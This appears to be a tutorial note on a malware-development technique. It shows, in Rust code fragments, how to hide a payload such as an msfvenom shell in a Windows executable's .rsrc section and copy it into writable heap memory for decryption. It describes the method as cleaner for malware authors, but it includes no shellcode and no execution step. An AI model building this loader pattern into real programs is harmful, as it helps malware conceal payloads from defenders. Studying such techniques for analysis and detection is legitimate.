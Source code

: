 # Intro
Stored payload in `.rsrc` section is a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `r.data` sections due to size limits. 

## .rsrc Section
The steps below illustrate how to store a payload in the .rsrc section in rust.

First all we need to store a payload (in this case a msfvenom shell) into a `calc.ico` file, now create a `resource.rc` file where the type is [RCDATA](https://learn.microsoft.com/en-us/windows/win32/menurc/rcdata-resource) and the IDR_RCDATA1 is a payload's ID in the resource section.This is important in order to be able to retrieve the payload from the resource section later.

```rust
#define IDR_RCDATA1 101

IDR_RCDATA1 RCDATA "calc.ico"
```

![[Pasted image 20250530223551.png]]

Now we need to compile the `resource.rc` file to do that in rust we can create a `build.rs` file and write this code in 

```rust
fn main(){
    // This build script compiles a Windows resource file.
    windres::Build::new()
        .compile("resource.rc")
        .unwrap();
}
```

add the **windres** as `[build-dependencies]` in the `Cargo.toml` file

```rust
[build-dependencies]
windres = "0.2.2"
```

in the dependecies section add the `winapi` 
```rust
[dependencies]
winapi = { version = "0.3.9", features = ["winbase", "libloaderapi", "minwindef", "errhandlingapi", "winuser", "heapapi"] }
```

using `FindResourceW` Windows API function through the `IDR_RCDATA1` (the payload's ID) we can retrieve the location of the payload 

```rust
let h_module = ptr::null_mut();
let h_rsrc = FindResourceW(
	h_module,
	MAKEINTRESOURCEW(101),
	RT_RCDATA
);
if h_rsrc.is_null(){
	print!("[!] Failed to find resource: {}\n", GetLastError());
	return;
}
```

Use `LoadResource` Windows API function to retrieve the `HGLOBAL` handler that is required to call `LockResource` later
```rust
let h_global = LoadResource(h_module,h_rsrc);
if h_global.is_null() {
	print!("[!] Failed to load resource: {}\n", GetLastError());
	return;
}
```

Use `LockResource` to  retrieve the pointer of the data. This is necessary to access the actual data stored in the resource.

```rust
let p_payload = LockResource(h_global) as *mut u8;
if p_payload.is_null() {
	print!("[!] Failed to lock resource: {}\n", GetLastError());
	return;
}
```

## Make the payload editable
Now the .rsrc section is `read-only` so if our payload is encrypted and we need to decrypt we can do it by create a virtual memory location and copy the `p_payload` over it.

First all retrieve the the size of the payload using `SizeofResource`  

```rust
let payload_size = SizeofResource(h_module, h_rsrc) as usize;
if payload_size == 0 {
	print!("[!] Failed to get resource size: {}\n", GetLastError());
	return;
}
```

Now allocate the valid memory location using `HeapAlloc`
```rust
let h_heap = GetProcessHeap();
let p_tmp_buffer = HeapAlloc(h_heap,0,payload_size) as *mut u8;
if p_tmp_buffer.is_null() {
	print!("[!] Failed to allocate memory on heap: {}\n", GetLastError());
return;
}
```

In the end copy the payload in the new memory location using `copy_nonoverlapping` function.
```rust
std::ptr::copy_nonoverlapping(p_payload, p_tmp_buffer, payload_size);
```


## Code execution

We can add this code to print the address space of the payload 
```rust
// Print section for debugging purposes
println!("[i] Payload Addresss: {:p}", p_payload);
println!("[i] Payload Size: {}", payload_size);
println!("[i] Temporary Buffer Address: {:p}", p_tmp_buffer);

println!("[#] Press <Enter> to Exit...");
let _ = std::io::stdin().read(&mut [0u8; 1]);
```

![[Pasted image 20250530225833.png]]

As in image above we can notice the `0x7ff72f05a060` is the address of payload in the `resource.rc` section. 
The `0x19a73c7ee40` is our editable payload's address instance.

## References

[MyCode]()